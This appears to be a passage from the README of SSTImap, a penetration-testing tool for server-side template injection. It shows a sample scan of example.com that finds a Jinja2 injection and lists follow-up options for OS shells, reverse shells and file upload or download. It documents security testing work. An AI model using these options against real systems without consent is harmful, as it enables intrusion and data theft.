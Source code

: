 After the exploitation, SSTImap can provide access to code evaluation, OS command execution and file system manipulations.

To check the URL, you can use `-u` argument:

```
$ ./sstimap.py -u https://example.com/page?name=John

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║ _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable   
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/